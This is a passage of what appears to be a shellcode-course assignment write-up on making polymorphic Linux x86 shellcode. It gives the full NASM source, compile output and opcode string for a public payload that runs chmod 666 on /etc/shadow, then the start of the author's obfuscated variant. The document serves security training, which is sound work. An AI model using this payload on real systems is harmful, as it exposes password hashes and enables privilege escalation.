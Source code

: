 In addition, the size of the original shellcode is 11 bytes. The size of the polymorphic shellcode is 16 bytes, meeting the size restrictions set by SecurityTube.

### Shellcode 2 - chmod 666 /etc/shadow
The author of the original shellcode is "root@thegibson". The code can be found <a href="http://shell-storm.org/shellcode/files/shellcode-566.php">here</a>.

#### Original Shellcode

~~~ nasm
; linux/x86 chmod 666 /etc/shadow 27 bytes
; root@thegibson
; 2010-01-15

section .text
  global _start

_start:
  ; chmod("//etc/shadow", 0666);
  mov al, 15
  cdq
  push edx
  push dword 0x776f6461
  push dword 0x68732f63
  push dword 0x74652f2f
  mov ebx, esp
  mov cx, 0666o
  int 0x80
~~~

#### Compiling the Original Shellcode

~~~ bash
skawa@ubuntu:~/Desktop/code/assignment/assignment6$ ./compile.sh chmod-original
[+] Assembling with Nasm
[+] Linking
[+] Extracting Opcodes
"\xb0\x0f\x99\x52\x68\x61\x64\x6f\x77\x68\x63\x2f\x73\x68\x68\x2f\x2f\x65\x74\x89\xe3\x66\xb9\xb6\x01\xcd\x80"
[+] Size: 27 bytes
skawa@ubuntu:~/Desktop/code/assignment/assignment6$
~~~

#### Polymorphic Shellcode
The polymorphic version of the shellcode I have created can be found <a href="https://github.com/skahwah/slae/blob/master/assignment6/chmod-shadow.nasm">here</a>

Below is an explanation of the changes.

~~~ nasm
;chmod-shadow.nasm
;this changes the permissions for /etc/shadow to 666
;Linux x86
;Saniv Kawa (@skawasec)
;www.popped.io
;December 6, 2016
;40 bytes

global _start

section .text

_start:
  mov al, 8 ;arithmetic for AL register
  add al, al  ;arithmetic for AL register
  dec al ;AL now contains the correct syscall number, 15
~~~